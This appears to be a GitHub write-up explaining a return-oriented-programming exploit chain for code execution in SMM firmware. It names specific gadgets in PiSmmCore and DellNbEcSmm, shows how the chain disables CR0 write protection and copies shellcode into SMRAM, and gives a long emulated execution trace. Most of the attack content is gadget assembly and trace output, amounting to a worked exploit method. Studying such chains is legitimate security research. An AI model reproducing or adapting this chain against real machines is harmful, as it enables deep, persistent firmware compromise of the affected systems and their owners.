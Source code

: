 # Explanation of ROP chain for SMM code execution. 
## Stack pivot
To get a ROP going the first thing we need to find is a stack pivot gadget, that will allow us to move the stack pointer to an address we control.
The one we were able to find in PiSmmCore is 
```asm
MOV        ESP,EBX
POP        RDI
RET
```
To use it we need to set EBX, luckily the LeakPrimitive function we used for the read primitive already set EBX to value of the first argument. 
However this is the address of the SMI_HANDLER struct and we can't set the values at the start of the strcture to arbitrary values. 
We can have function call itself again. This allows us to control the value of the first argument. 
This new iteration of the function will call the pivot gadget and now we can start using a standard ROP chain.

## Store previous stack pointer
The second thing we want in our ROP is to store the original stack pointer (Doesn't have to be exact we can do arithmatic in the shellcode later).  Since RSP/ESP already points to another address, we can use R11 which is used as the frame pointer in our function. We couldn't find a gadget that will allow us to store the value of R11, so we looked for one in other binaries and found a few in DellNbEcSmm. We are using: 
```asm
MOV        dword ptr [RBX],R11D
XOR        EAX,EAX
MOV        RBX,qword ptr [RSP + 0x50]
ADD        RSP,0x30
POP        RDI
RET
```
It's a little more then we need, but the other options included a call to a function, so we will take this one. We do write the value up the stack, so we will have to be carful not to overwrite it before we can move it with the shellcode.

## Disable write protection
Now we need to disable CR0 write protect bit so we can copy the shellcode to an executable segment.
We've found the gadgets:
```asm 
POP        RAX
POP        RDI
RET
```
```asm 
MOV        CR0, RAX
RET
```
We don't need to read the value of CR0 since it's predictable and we can just hardcode the value we like.

## Copying the shellcode to SMRAM.
Now we can use memcpy to copy the shellcode to a code segment, but we couldn't find gadgets for setting the arguments in RDX and R8.
We did find the following solution:
```asm
POP        RBX
RET
```
```asm
POP        RAX
POP        RDI
RET
```
```asm
MOV        R8,RBX
MOV        RDX,RDI
MOV        RCX,RAX
CALL       memcpy
MOV        RBX,qword ptr [RSP + 0x30]
ADD        RSP,0x20
POP        RDI
RET
```
If we set that last ret to the address we copy the shell code to we start running the shellcode.

## Running the ROP and shellcode in emulation
We've generated this listing by executing the whole thing using the qiling framework.
```asm
; LeakPrimitive function - As SMI handler:
0x00103948  {rsp: 0x006000   0xc0de  } mov r11, rsp
0x0010394b  {rsp: 0x006000   0xc0de  } mov qword ptr [r11 + 0x10], rbx
0x0010394f  {rsp: 0x006000   0xc0de  } mov qword ptr [r11 + 0x18], rsi
0x00103953  {rsp: 0x006000   0xc0de  } push rdi
0x00103954  {rsp: 0x005ff8   0x000000} sub rsp, 0x40
0x00103958  {rsp: 0x005fb8   0x000000} mov r10, qword ptr [rcx + 0x48]
0x0010395c  {rsp: 0x005fb8   0x000000} lea rdi, [rcx + 0x50]
0x00103960  {rsp: 0x005fb8   0x000000} lea rax, [rcx + 0x58]
0x00103964  {rsp: 0x005fb8   0x000000} mov rbx, rcx
0x00103967  {rsp: 0x005fb8   0x000000} lea rdx, [rcx + 0x30]
0x0010396b  {rsp: 0x005fb8   0x000000} xor r9d, r9d
0x0010396e  {rsp: 0x005fb8   0x000000} lea rcx, [r11 + 8]
0x00103972  {rsp: 0x005fb8   0x000000} mov r8b, 0x1c
0x00103975  {rsp: 0x005fb8   0x000000} mov qword ptr [r11 - 0x18], rcx
0x00103979  {rsp: 0x005fb8   0x000000} mov rcx, r10
0x0010397c  {rsp: 0x005fb8   0x000000} mov qword ptr [r11 - 0x20], rax
0x00103980  {rsp: 0x005fb8   0x000000} mov qword ptr [r11 - 0x28], rdi
0x00103984  {rsp: 0x005fb8   0x000000} call qword ptr [r10 + 0x18]
; LeakPrimitive function - second run:
0x00103948  {rsp: 0x005fb0   0x103988} mov r11, rsp
0x0010394b  {rsp: 0x005fb0   0x103988} mov qword ptr [r11 + 0x10], rbx
0x0010394f  {rsp: 0x005fb0   0x103988} mov qword ptr [r11 + 0x18], rsi
0x00103953  {rsp: 0x005fb0   0x103988} push rdi
0x00103954  {rsp: 0x005fa8   0x001050} sub rsp, 0x40
0x00103958  {rsp: 0x005f68   0x000000} mov r10, qword ptr [rcx + 0x48]
0x0010395c  {rsp: 0x005f68   0x000000} lea rdi, [rcx + 0x50]
0x00103960  {rsp: 0x005f68   0x000000} lea rax, [rcx + 0x58]
0x00103964  {rsp: 0x005f68   0x000000} mov rbx, rcx
0x00103967  {rsp: 0x005f68   0x000000} lea rdx, [rcx + 0x30]
0x0010396b  {rsp: 0x005f68   0x000000} xor r9d, r9d
0x0010396e  {rsp: 0x005f68   0x000000} lea rcx, [r11 + 8]
0x00103972  {rsp: 0x005f68   0x000000} mov r8b, 0x1c
0x00103975  {rsp: 0x005f68   0x000000} mov qword ptr [r11 - 0x18], rcx
0x00103979  {rsp: 0x005f68   0x000000} mov rcx, r10
0x0010397c  {rsp: 0x005f68   0x000000} mov qword ptr [r11 - 0x20], rax
0x00103980  {rsp: 0x005f68   0x000000} mov qword ptr [r11 - 0x28], rdi
0x00103984  {rsp: 0x005f68   0x000000} call qword ptr [r10 + 0x18]
; Stack pivot
0x001032e5  {rsp: 0x005f60   0x103988} mov esp, ebx
0x001032e7  {rsp: 0x001028   0x1032e5} pop rdi
0x001032e8  {rsp: 0x001030   0x103d35} ret
; Advance stack pointer
0x00103d35  {rsp: 0x001038   0x000000} add rsp, 0x20
0x00103d39  {rsp: 0x001058   0x000000} pop rdi
0x00103d3a  {rsp: 0x001060   0x1ac186} ret
; Store frame pointer in SMI_HANDLER struct
0x001ac186  {rsp: 0x001068   0x000000} mov dword ptr [rbx], r11d
0x001ac189  {rsp: 0x001068   0x000000} xor eax, eax
0x001ac18b  {rsp: 0x001068   0x000000} mov rbx, qword ptr [rsp + 0x50]
0x001ac190  {rsp: 0x001068   0x000000} add rsp, 0x30
0x001ac194  {rsp: 0x001098   0x000000} pop rdi
0x001ac195  {rsp: 0x0010a0   0x10105a} ret
; Set CR0 to diable write protection.
0x0010105a  {rsp: 0x0010a8   0x80000033} pop rax
0x0010105b  {rsp: 0x0010b0   0x000000} pop rdi
0x0010105c  {rsp: 0x0010b8   0x11393f} ret
0x0011393f  {rsp: 0x0010c0   0x101135} mov cr0, rax
0x00113942  {rsp: 0x0010c0   0x101135} ret
; Copy shellcode to SMRAM
0x00101135  {rsp: 0x0010c8   0x000027} pop rbx
0x00101136  {rsp: 0x0010d0   0x10105a} ret
0x0010105a  {rsp: 0x0010d8   0x1045e4} pop rax
0x0010105b  {rsp: 0x0010e0   0x004500} pop rdi
0x0010105c  {rsp: 0x0010e8   0x1079d7} ret
0x001079d7  {rsp: 0x0010f0   0x000000} mov r8, rbx
0x001079da  {rsp: 0x0010f0   0x000000} mov rdx, rdi
0x001079dd  {rsp: 0x0010f0   0x000000} mov rcx, rax
0x001079e0  {rsp: 0x0010f0   0x000000} call 0x101000
; memcpy
0x00101000  {rsp: 0x0010e8   0x1079e5} push rsi
0x00101001  {rsp: 0x0010e0   0x000000} push rdi
0x00101002  {rsp: 0x0010d8   0x004500} mov rsi, rdx
0x00101005  {rsp: 0x0010d8   0x004500} mov rdi, rcx
0x00101008  {rsp: 0x0010d8   0x004500} lea r9, [rsi + r8 - 1]
0x0010100d  {rsp: 0x0010d8   0x004500} cmp rsi, rdi
0x00101010  {rsp: 0x0010d8   0x004500} mov rax, rdi
0x00101013  {rsp: 0x0010d8   0x004500} jae 0x10101a
0x00101015  {rsp: 0x0010d8   0x004500} cmp r9, rdi
0x00101018  {rsp: 0x0010d8   0x004500} jae 0x10102a
0x0010101a  {rsp: 0x0010d8   0x004500} mov rcx, r8
0x0010101d  {rsp: 0x0010d8   0x004500} and r8, 7
0x00101021  {rsp: 0x0010d8   0x004500} shr rcx, 3
0x00101025  {rsp: 0x0010d8   0x004500} rep movsq qword ptr [rdi], qword ptr [rsi]
0x00101025  {rsp: 0x0010d8   0x004500} rep movsq qword ptr [rdi], qword ptr [rsi]
0x00101025  {rsp: 0x0010d8   0x004500} rep movsq qword ptr [rdi], qword ptr [rsi]
0x00101025  {rsp: 0x0010d8   0x004500} rep movsq qword ptr [rdi], qword ptr [rsi]
0x00101025  {rsp: 0x0010d8   0x004500} rep movsq qword ptr [rdi], qword ptr [rsi]
0x00101028  {rsp: 0x0010d8   0x004500} jmp 0x101033
0x00101033  {rsp: 0x0010d8   0x004500} mov rcx, r8
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101036  {rsp: 0x0010d8   0x004500} rep movsb byte ptr [rdi], byte ptr [rsi]
0x00101038  {rsp: 0x0010d8   0x004500} cld
0x00101039  {rsp: 0x0010d8   0x004500} pop rdi
0x0010103a  {rsp: 0x0010e0   0x000000} pop rsi
0x0010103b  {rsp: 0x0010e8   0x1079e5} ret
; Back to memcpy calling function
0x001079e5  {rsp: 0x0010f0   0x000000} mov rbx, qword ptr [rsp + 0x30]
0x001079ea  {rsp: 0x0010f0   0x000000} add rsp, 0x20
0x001079ee  {rsp: 0x001110   0x000000} pop rdi
0x001079ef  {rsp: 0x001118   0x1045e4} ret
; Return to shellcode
0x001045e4 {rsp: 0x001120    0x000000} mov rbx, 0x1028
0x001045eb {rsp: 0x001120    0x000000} mov rsp, qword ptr [rbx]
0x001045ee {rsp: 0x005fb0    0x103988} movabs rax, 0x80000018
0x001045f8 {rsp: 0x005fb0    0x103988} ret
; Execution restoration, back to the first execution of LeakPrimitive function
; Shellcode set the return value as an error code so the function will clean up and return
0x00103988 {rsp: 0x005fb8    0x000000} mov rsi, rax
0x0010398b {rsp: 0x005fb8    0x000000} test rax, rax
0x0010398e {rsp: 0x005fb8    0x000000} jns 0x1039af
0x00103990 {rsp: 0x005fb8    0x000000} movabs rax, 0x80000018
0x0010399a {rsp: 0x005fb8    0x000000} cmp rsi, rax
0x0010399d {rsp: 0x005fb8    0x000000} jne 0x1039a5
0x0010399f {rsp: 0x005fb8    0x000000} mov byte ptr [rbx + 0x77], 1
0x001039a3 {rsp: 0x005fb8    0x000000} jmp 0x1039f0
0x001039f0 {rsp: 0x005fb8    0x000000} mov rbx, qword ptr [rsp + 0x58]
0x001039f5 {rsp: 0x005fb8    0x000000} mov rax, rsi
0x001039f8 {rsp: 0x005fb8    0x000000} mov rsi, qword ptr [rsp + 0x60]
0x001039fd {rsp: 0x005fb8    0x000000} add rsp, 0x40
0x00103a01 {rsp: 0x005ff8    0x000000} pop rdi
0x00103a02 {rsp: 0x006000    0xc0de  } ret


```

